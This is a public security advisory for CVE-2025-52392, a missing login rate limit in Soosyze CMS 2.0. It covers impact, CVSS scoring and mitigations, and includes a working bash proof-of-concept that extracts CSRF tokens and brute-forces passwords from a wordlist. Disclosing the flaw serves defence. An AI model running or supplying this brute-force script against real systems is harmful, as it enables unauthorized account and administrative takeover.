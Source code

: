 # Brute Force Login Vulnerability in Soosyze CMS 2.0 (CVE-2025-52392)

**Vendor:** Soosyze

**Product:** Soosyze CMS

**Version Affected:** 2.0 (confirmed)

**Component:** /user/login – Authentication Controller

**CWE:** [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)

**Attack Vector:** Remote (network exploitable)

### Description

Soosyze CMS 2.0 contains a vulnerability in the /user/login authentication endpoint that allows unlimited credential-guessing attempts due to the absence of rate limiting and account lockout mechanisms.

A remote, unauthenticated attacker can submit unlimited HTTP POST requests with varying passwords for a known username/email without triggering any throttling, delay, or lockout.

The vulnerability can be exploited using automated tools such as THC Hydra, Burp Suite Intruder, or custom scripts, enabling brute-force attacks that may lead to compromise of administrative accounts.

Testing confirmed that the server issues a valid login form and CSRF token on every request, and accepts repeated authentication attempts without introducing timing penalties or invalidating sessions.

No vendor patch or mitigation was available at the time of publication.

### Impact

Successful exploitation may allow:

* Account Compromise: Unauthorized access to valid user accounts.
* Administrative Takeover: Full compromise of the CMS instance if administrative credentials are obtained.
* Data Exposure/Modification: Unrestricted access to protected content and potential injection of malicious configurations or content.

Impact Scope:

* Confidentiality: High
* Integrity: High
* Availability: Low

### Attack Details

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): None (N)

Scope (S): Unchanged (U)

Confidentiality (C): High (H)

Integrity (I): High (H)

Availability (A): Low (L)

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
```

**CVSS v3.1 Base Score: 9.1 (Critical)**

### Proof of Concept (PoC)

#### Overview

The following PoC demonstrates a brute-force authentication vulnerability in **Soosyze CMS 2.0** at the `/user/login` endpoint.\
The issue is caused by **missing rate limiting and account lockout mechanisms**, allowing an attacker to try unlimited password guesses.

**Steps to Reproduce**

1. Deploy or access a Soosyze CMS 2.0 instance.
2. Identify a valid username or email address (e.g., test@test.com).
3. Prepare a password dictionary (e.g., rockyou.txt).
4. Execute the provided Bash PoC script to perform automated POST login attempts.

#### PoC Script

```bash
#!/usr/bin/env bash
# Author: Beatriz Fresno Naumova (beafn28)
# Usage:
#   ./script.sh [wordlist.txt]
# If no wordlist is provided, a dictionary will be used.

set -euo pipefail

BASE_URL="http://localhost:8000"
LOGIN_PATH="/user/login"
EMAIL_FIELD="email"
PASS_FIELD="password"
TARGET_EMAIL="test@test.com"

WORDLIST_FILE="${1:-}"
DEFAULT_WORDS=("123456" "admin" "password" "qwerty" "letmein" "admin123" "password1")

form_url="$BASE_URL$LOGIN_PATH"
COOKIE_JAR="$(mktemp)"

get_form() {
    curl -sS -c "$COOKIE_JAR" -b "$COOKIE_JAR" "$form_url" > /tmp/login_page.html
}

extract_token() {
    local name value
    name=$(sed -nE 's/.*name="([_a-zA-Z0-9:-]*(token|csrf)[_a-zA-Z0-9:-]*)".*type="hidden".*/\1/p' /tmp/login_page.html | head -n1 || true)
    value=""
    if [[ -n "$name" ]]; then
        value=$(sed -nE "s/.*name=\"$name\".*value=\"([^\"]*)\".*/\1/p" /tmp/login_page.html | head -n1 || true)
    fi
    printf '%s\t%s\n' "$name" "$value"
}

post_login() {
    local pass="$1" tname="$2" tval="$3"
    curl -sS -o /tmp/resp.html -w "%{http_code}" \
        -c "$COOKIE_JAR" -b "$COOKIE_JAR" \
        -X POST "$form_url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -H "Origin: $BASE_URL" -H "Referer: $form_url" \
        --data-urlencode "$EMAIL_FIELD=$TARGET_EMAIL" \
        --data-urlencode "$PASS_FIELD=$pass" \
        $( [[ -n "$tname" && -n "$tval" ]] && printf -- '--data-urlencode %s=%s' "$tname" "$tval" )
}

echo "[*] Starting brute-force attack on $form_url"
[[ -n "$WORDLIST_FILE" && -r "$WORDLIST_FILE" ]] && mapfile -t words < "$WORDLIST_FILE" || words=("${DEFAULT_WORDS[@]}")

i=0
for pw in "${words[@]}"; do
    i=$((i+1))
    get_form
    IFS=$'\t' read -r TOKEN_NAME TOKEN_VALUE < <(extract_token)
    code=$(post_login "$pw" "$TOKEN_NAME" "$TOKEN_VALUE")

    if grep -q '"redirect"' /tmp/resp.html; then
        echo -e "[$i] Password found: '\e[1m$pw\e[0m' (HTTP $code)"
        break
    else
        echo "[$i] '$pw' (HTTP $code)"
    fi

    sleep 0.$((RANDOM%9+1))
done

rm -f "$COOKIE_JAR" /tmp/resp.html
```

#### Execution example

```
./poc.sh rockyou.txt
```

<figure><img src="../.gitbook/assets/image (1679).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Captura de pantalla 2025-08-12 a las 21.12.40 (1).png" alt=""><figcaption></figcaption></figure>

### Mitigation

* Implement server-side rate limiting (e.g., maximum 5 failed attempts per minute per IP).
* Apply temporary account lockout after multiple failed attempts.
* Introduce CAPTCHA or other bot-mitigation mechanisms after repeated failed logins.
* Consider logging and monitoring repeated failed authentication attempts.

### Discoverer

Beatriz Fresno Naumova (beafn28)

### References

* CVE: [CVE-2025-52392](https://www.cve.org/CVERecord?id=CVE-2025-52392)
* Public advisory: [https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392](https://beafn28.gitbook.io/beafn28/cve/brute-force-login-vulnerability-in-soosyze-cms-2.0-cve-2025-52392)
